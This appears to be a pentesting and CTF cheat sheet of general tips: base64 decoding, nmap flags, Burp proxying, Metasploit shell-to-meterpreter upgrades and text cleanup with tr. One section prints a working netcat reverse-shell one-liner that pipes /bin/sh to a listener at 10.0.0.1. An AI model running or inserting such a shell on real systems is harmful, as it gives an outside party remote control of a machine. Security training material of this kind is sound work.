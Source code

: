 # General tips and tricks

## General CTF data analysis \(encoding, hash identifier, etc.\) <a id="general-ctf-data-analysis-encoding-hash-identifier-etc"></a>

```text
https://gchq.github.io/CyberChef/
```

## Disposable email <a id="disposable-email"></a>

If you are signing up for a lot of accounts you can use a disposable email. You just enter the email account you want for that second, and then you can view it. But remember, so can everyone else.  
[https://www.mailinator.com](https://www.mailinator.com/)

## Base64 encode/decode <a id="base64-encodedecode"></a>

```text
import base64

encoded = base64.b64encode("String to encode")
print encoded

decoded = base64.b64decode("aGVqc2Fu")
print decoded
```

## Quick Base64 Decoder <a id="quick-base64-decoder"></a>

```text
echo aGVsbG8gd2hpdGUgaGF0Cg== | base64 -d
```

```text
db_rebuild_cache
```

## Default passwords <a id="default-passwords"></a>

[http://www.defaultpassword.com/](http://www.defaultpassword.com/)

## Getting GUI on machine that does not have RDP or VNC <a id="getting-gui-on-machine-that-does-not-have-rdp-or-vnc"></a>

You can forward X over SSH.  
[http://www.vanemery.com/Linux/XoverSSH/X-over-SSH2.html](http://www.vanemery.com/Linux/XoverSSH/X-over-SSH2.html)

In metasploit framework, if we have a shell \( you should try this also, when you are trying to interact with a shell and it dies \(happened in a VM\), we can upgrade it to meterpreter by using sessions -u

```text
sessions -h
Usage: sessions [options]

Active session manipulation and interaction.

OPTIONS:

-u <opt>  Upgrade a shell to a meterpreter session on many platforms
```

```text
In the RHOSTS field enter:

file://PATHTOIPADDRESSES
```

## **Change Nmap modes while scanning** <a id="change-nmap-modes-while-scanning"></a>

```text
v   --increase verbosity
p   --turn on packets
```

## **Nmap host enumeration** <a id="nmap-host-enumeration"></a>

```text
-sn --determine alive hosts
```

## Issues with Exploits \(try viewing in Burp\) <a id="issues-with-exploits-try-viewing-in-burp"></a>

```text
Options->Add(proxy Listeners)->
Bind to port (i.e.local port to bind)(e.g.8500)->
Request Handling->
Redirect to host(i.e.IP of target)(e.g.8500)->
Redirect to port(i.e.Port of target)(e.g.8500)

then browser
localhost:8500
or run the exploit again
```

## Quick determination if executables exist <a id="quick-determination-if-executables-exist"></a>

```text
which nc
```

## Makes Sure shells don't hang \(send to background\) <a id="makes-sure-shells-dont-hang-send-to-background"></a>

```text
If adding a reverse shell to web console for example, add a "&" to the end of reverse shell, to send to background
and in case any process during interaction hangs
for example:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f &
```

## Modification of Files \(CTF specific / IR trick\) <a id="modification-of-files-ctf-specific--ir-trick"></a>

look for other files modified after initial flag file or other indicator

```text
find / -type f -newermt 2017-08-20 ! -newermt 2017-08-24 2>/dev/null
```

**Note:** 2&gt;/dev/null hides all permission denied error messages

above example the user flag was uploaded aug 22 2017

## Remove white space from a file <a id="remove-white-space-from-a-file"></a>

In order to wipe all whitespace including newlines you can try:

```text
cat file.txt | tr -d " \t\n\r"
```

You can also use the character classes defined by tr

```text
cat file.txt | tr -d "[:space:]"
```

For example, in order to wipe just horizontal white space:

```text
cat file.txt | tr -d "[:blank:]"
```

```text
root@kali:~/Desktop# cat mount-shared-folders.sh 
#!/bin/bash

vmware-hgfsclient | while read folder; do
  echo "[i] Mounting ${folder}   (/mnt/hgfs/${folder})"
  mkdir -p "/mnt/hgfs/${folder}"
  umount -f "/mnt/hgfs/${folder}" 2>/dev/null
  vmhgfs-fuse -o allow_other -o auto_unmount ".host:/${folder}" "/mnt/hgfs/${folder}"
done

sleep 2s
```


